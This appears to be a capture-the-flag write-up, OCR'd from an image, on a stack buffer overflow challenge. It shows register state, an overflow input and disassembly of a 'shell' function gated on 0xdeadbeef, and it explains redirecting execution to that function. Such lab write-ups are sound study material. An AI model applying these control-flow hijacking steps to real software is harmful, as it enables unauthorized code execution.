 ```
eflags         0x10202             [ IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0

```

### Approach

The aim is to call the function `shell` while passing in `0xDEADBEEF` as a parameter.

#### Calling the `shell` function

Since we overflow to the instruction pointer, we can just insert the address of the `shell function` after the padding. However, the source code shows that we need to pass in a parameter into the function first.

```
_______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                        Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@...
Unauthorized.
```

#### How to pass in the parameter

Looking at the disassembly of the `shell` function, the value of `0xdeadbeef` should be stored in `rbp-0x14`.
```
00000000004006ea <shell>:
  4006ea:	55                   	push   rbp
  4006eb:	48 89 e5             	mov    rbp,rsp
  4006ee:	48 83 ec 20          	sub    rsp,0x20
  4006f2:	89 7d ec             	mov    DWORD PTR [rbp-0x14],edi
  4006f5:	48 8b 05 aa 01 00 00 	mov    rax,QWORD PTR [rip+0x1aa]        # 4008a6 <_IO_stdin_used+0x16>
  4006fc:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
  400700:	81 7d ec ef be ad de 	cmp    DWORD PTR [rbp-0x14],0xdeadbeef
  400707:	75 0e                	jne    400717 <shell+0x2d>
  400709:	48 8d 45 f8          	lea    rax,[rbp-0x8]
  40070d:	48 89 c7             	mov    rdi,rax
  400710:	e8 6b fe ff ff       	call   400580 <system@plt>
  400715:	eb 0c                	jmp    400723 <shell+0x39>
  400717:	48 8d 3d 7a 01 00 00 	lea    rdi,[rip+0x17a]        # 400898 <_IO_stdin_used+0x8>
  40071e:	e8 4d fe ff ff       	call   400570 <puts@plt>
  400723:	90                   	nop
  400724:	c9                   	leave
  400725:	c3                   	ret
```
